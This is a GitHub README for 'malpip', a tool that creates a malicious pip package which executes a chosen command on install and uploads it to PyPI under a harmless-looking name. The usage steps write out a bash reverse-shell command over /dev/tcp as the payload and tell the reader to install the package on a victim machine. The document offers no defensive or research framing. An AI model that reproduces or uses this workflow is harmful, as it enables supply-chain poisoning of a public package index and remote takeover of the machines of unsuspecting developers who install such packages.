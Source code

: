 
# malpip
Create a malicious pip package that runs your command when installing it.

## Prerequisite
Create an account on https://pypi.org

## Installation
1. Clone repository and set permissions.
```bash
git clone https://github.com/thegoodhackertv/malpip.git
cd malpip
sudo chmod +x malpip.sh
```
2. Install dependencies.
```bash
sudo ./malpip install
```
3. Set the command to be executed.
```bash
echo "/bin/bash -i >& /dev/tcp/127.0.0.1/1337 0>&1" > command.txt
```
4. Create malicious project.
You will be asked for your pypi credentials to upload the project.
```bash
./malpip create nothingmalicious command.txt
```
5. Install the package on the victim machine and your command will be executed.

